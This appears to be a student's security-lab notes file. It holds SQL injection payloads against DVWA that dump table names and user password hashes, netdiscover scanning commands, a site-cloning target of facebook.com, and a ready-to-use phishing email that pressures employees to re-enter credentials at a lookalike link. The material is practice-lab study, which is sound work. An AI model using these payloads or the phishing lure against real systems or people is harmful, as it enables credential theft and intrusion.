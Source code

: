 # SQLi
When DVWA security is set to LOW:

1.)Reveals all user is:1' OR '1'='1'#

2.)Reveals name of all tables in the database:'UNION SELECT table_name, NULL FROM information_schema.tables#

3.)Reveals all the column names form 'users' table:'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name= 'users'#

4.)Reveals all the usernames and password hashes:'UNION SELECT user, password FROM users#

# Siteclone
https://facebook.com

# John the Ripper
https://www.stationx.net/how-to-use-hydra/

# netdiscover
Command | Explanation

sudo netdiscover | Auto-scans your current subnet to find live hosts.

sudo netdiscover -r 192.168.1.0/24 | Scans a specific subnet range manually.

sudo netdiscover -f | Performs a fast scan with less accuracy.

sudo netdiscover -i eth0 | Uses a specific network interface (e.g., eth0 or wlan0).

sudo netdiscover -r 192.168.1.0/24 > output.txt | Saves scan results to a text file.

sudo netdiscover -s | Continuously scans and updates live devices in real-time.

sudo netdiscover -p | Passive mode: silently listens to ARP traffic without sending packets.

# Phishing
Subject: [Action Required] System Security Update – Verify Your Account

Dear [Employee Name],

As part of our institution's routine security maintenance, we are rolling out an update to the internal login portal. To ensure uninterrupted access, all users are required to re-authenticate their credentials.

Please verify your account by visiting the secure portal at the link below:

https://institution-login-verification.example.com

This must be completed by 6:00 PM today to prevent temporary access restrictions.

Thank you for your prompt attention.

Sincerely,
IT Support Team
[Institution Name]

























































\\\10.125.100.100    Backups
